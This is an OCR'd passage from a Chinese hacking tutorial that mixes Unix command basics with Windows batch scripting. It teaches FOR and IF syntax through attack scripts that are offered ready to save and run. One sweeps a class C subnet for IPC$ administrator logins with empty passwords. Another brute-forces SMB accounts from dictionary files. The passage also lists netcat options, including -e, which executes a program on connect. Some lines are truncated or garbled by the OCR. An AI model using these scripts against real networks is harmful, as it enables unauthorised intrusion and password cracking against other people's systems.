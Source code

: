 > who 查询目前和你使用同一台机器的人以及Login时间地点
> w 查询目前上机者的详细资料
> whoami 查看自己的帐号名称
> groups 查看某人的Group
> passwd 更改密码
> history 查看自己下过的命令
> ps 显示进程状态
> kill 停止某进程
> gcc 黑客通常用它来编译C语言写的文件
> su 权限转换为指定使用者
> telnet IP telnet连接对方主机（同win2K），当出现bash$时就说明连接成功。
> ftp ftp连接上某服务器（同win2K）
> 批处理命令与变量
> 1：for命令及变量 基本格式
> FOR /参数 %variable IN (set) DO command [command_parameters] %variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。
> 批处理每次能处理的变量从%0—%9共10个，其中%0默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个> 例：net use ipipc$ pass /user:user 中ip为%1,pass为%2 ,user为%3
> (set):指定一个或一组文件，可使用通配符，如：(D:user.txt)和(1 1 254)(1 -1 254),{ “(1 1 254)”第一个"1"指起始值，第二个"1"指增长> 第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1 }
> command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开
> command_parameters：为特定命令指定参数或命令行开关
> IN (set)：指在(set)中取值；DO command ：指执行command
> 参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。
> 用法举例：
> @echo off
> echo 用法格式：test.bat *.*.* > test.txt
> for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>> st.txt
> 存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。
> /L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net us> 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止> 
> @echo off
> echo 用法格式：ok.bat ip
> FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200
> 存为：ok.exe 说明：输入一个IP后，用字典文件d:pass.dic来暴解d:user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP> （默认）。
> 七：
> 2：if命令及变量 基本格式
> IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。
> 例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执> 面的命令。
> 0 指发现并成功执行（真）；1 指没有发现、没执行（假）。
> IF [not] 字符串1==字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。
> 例：“if "%2%"=="4" goto start”指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "）
> IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。
> 例：“if not nc.exe goto end”指：如果没有发现nc.exe文件就跳到":end"标签处。
> IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 > 语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有d> 命令时需把del命令全部内容用< >括起来，因为del命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如：“if exist test.txt. <d>  test.txt.> else echo test.txt.missing ”，注意命令中的“.”
> 系统外部命令
> 注：系统外部命令(均需下载相关工具)
> 瑞士军刀：nc.exe
> 参数说明：
> -h 查看帮助信息
> -d 后台模式
> -e prog程序重定向，一但连接就执行[危险]
> -i secs延时的间隔
> -l 监听模式，用于入站连接
> -L 监听模式，连接天闭后仍然继续监听，直到CTR+C
> -n IP地址，不能用域名
> -o film记录16进制的传输
> -p[空格]端口 本地端口号
> -r 随机本地及远程端口
> -t 使用Telnet交互方式